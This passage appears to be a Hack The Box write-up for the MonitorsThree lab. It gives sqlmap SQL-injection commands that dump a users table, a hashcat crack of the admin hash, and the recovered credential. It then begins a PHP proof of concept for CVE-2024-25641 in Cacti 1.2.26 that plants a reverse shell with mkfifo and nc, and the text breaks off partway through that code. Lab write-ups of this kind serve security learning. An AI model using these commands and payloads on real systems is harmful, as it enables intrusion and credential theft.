 We enumerate the target and find two databases.

```
sqlmap -r reset.txt --level 5 --risk 3 -p username --batch --threads=10 --batch --dbs
```

![databases found](/images/HTB-MonitorsThree/dbs_found.png)

We can now enumerate the tables of `monitorsthree_db` database since `information_schema` is a default system database in MySQL.

```
sqlmap -r reset.txt --level 5 --risk 3 -p username --batch --threads=10 --batch -D monitorsthree_db --tables
```

![tables found](/images/HTB-MonitorsThree/db_tables.png)

The `users` table is the most promising one, let's dump its content.

```
sqlmap -r reset.txt --level 5 --risk 3 -p username --batch --threads=10 -D monitorsthree_db -T users --dbms=mysql --technique=T --dump
```

![SQLmap hashes found](/images/HTB-MonitorsThree/SQLmap_hashes.png)

We recover the password of `admin` with hashcat.

```
hashcat -m 0 -a 0 admin_hash.txt /usr/share/wordlists/rockyou.txt
```

![admin password](/images/HTB-MonitorsThree/admin_pwd.png)

With the credentials `admin:greencacti2001` we are able to login on the cacti login page and access the dashboard.

> The same credentials also work on the login page at `http://monitorsthree.htb/login.php`.

![cacti dashboard](/images/HTB-MonitorsThree/cacti_dashboard.png)

## Initial Foothold

### Manual Exploit

Researching vulnerability for the `Cacti version 1.2.26` leads to `CVE-2024-25641` allowing RCE by using a malicious package. The PoC is available [here](https://github.com/cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88).

```PHP
<?php

$xmldata = "<xml>
   <files>
       <file>
           <name>resource/test.php</name>
           <data>%s</data>
           <filesignature>%s</filesignature>
       </file>
   </files>
   <publickey>%s</publickey>
   <signature></signature>
</xml>";
$filedata = "<?php shell_exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc {IP} {PORT} >/tmp/f'); ?>";
$keypair = openssl_pkey_new(); 
$public_key = openssl_pkey_get_details($keypair)["key"]; 
openssl_sign($filedata, $filesignature, $keypair, OPENSSL_ALGO_SHA256);
```